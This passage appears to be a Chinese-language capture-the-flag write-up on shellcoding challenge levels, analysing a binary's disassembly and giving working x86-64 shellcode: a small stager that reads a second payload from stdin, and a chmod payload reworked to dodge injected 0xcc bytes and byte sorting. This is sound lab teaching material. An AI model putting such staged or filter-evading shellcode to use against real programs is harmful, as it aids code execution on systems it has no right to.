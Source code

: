 ```
```
这里找到了程序执行`read`的操作, 这里就是将shellcode从stdin读入了, `edi`保存的是`read`的`fd(file descriptor)`参数, 0x0就是`/dev/stdin`. 然后`edx`保存的是`count`参数. 然后`rsi`保存的是读取的code保存的地址, 它的值为`rip + 0x28e6`.

继续往下看, 到`0x00005588814467ca <+611>`的位置, 发现call了`rdx`指向的内存, 从上面可以发现它的值是`rip + 0x285e`, 两个offset的差值是`0x28e6 - 0x285e = 0x88 (136)`, 而`0x0000558881446733 <+460>`到`0x00005588814467bb <+596>`的offset也是`136`, 那说明这里call的就是读入进来的shellcode, 可以看到在call之前已经执行了`mov $0x0,%eax`, 而这恰好就是`read`syscall的id, 那这就替一段的shell减少了一条语句, 然后就需要关注剩余的参数`rdi(fd)` `rsi(buf addr)` `rdx(size)`.

`rdi`需要设置为0, 即`/dev/stdin`的file descriptor值.

`rsi`需要设置为`rip`的地址, 如果使用`mov rsi, [rip]`或者`lea rsi, [rip]`的话, 编译出来的长度都不满足要求. 通过反编译出来的代码可以发现, `rdx`的值已经是第一段shellcode所在的地址了, 所以将`rsi`赋值为`rdx`的值再加上shellcode的长度即可, 但是会发现赋值之后再加编译出来的shellcode长度无法达到6byte的长度, **那可以选择在第二段shellcode的开头填充6byte的`nop`.**
`rdx`作为表示长度的参数, 它的值是一个内存地址, 保持它的值不变即可.
```
.global _start
_start:
.intel_syntax noprefix
        push rdx
        pop rsi
        xor rdi, rdi
        syscall
```
## level 9
>*This challenge modified your shellcode by overwriting every other 10 bytes with 0xcc. 0xcc, when interpreted as an instruction is an `INT 3`, which is an interrupt to call into the debugger. You must avoid these modifications in your shellcode.*

level 9会修改你的shellcode, 每隔10 byte将shellcode set成0xcc, 也就是`INT 3`, 要跳过中断的话用`jmp`即可, 中间可以填充`nop`或者其他byte. 然后尽量保证shellcode的长度在20 byte以内, 这样jmp之后在被set 0xcc之前就可执行结束.
```
.global _start
_start:
.intel_syntax noprefix
        push 0x46
        mov rdi, rsp
        mov al, 90
        jmp next
.fill 10, 1, 0x90
next:
        mov si,4
        syscall
```

## level 10, 11
>*This challenge just sorted your shellcode using bubblesort. Keep in mind the impact of memory endianness on this sort (e.g., the LSB being the right-most byte). This sort processed your shellcode 8 bytes at a time.*

level 10会将shellcode按照8byte为一组, 按组进行排序. 根据编译出来的hex code对asm语句顺序进行调整即可
```
.global _start
_start:
.intel_syntax noprefix
        push 0x46
        mov rdi, rsp
        mov al, 90
        mov si,4
        syscall
```
level 11在level 10的基础上关闭了`/dev/stdin`, 但是对于chmod来说没有影响, 用level 10的code同样可以pass.
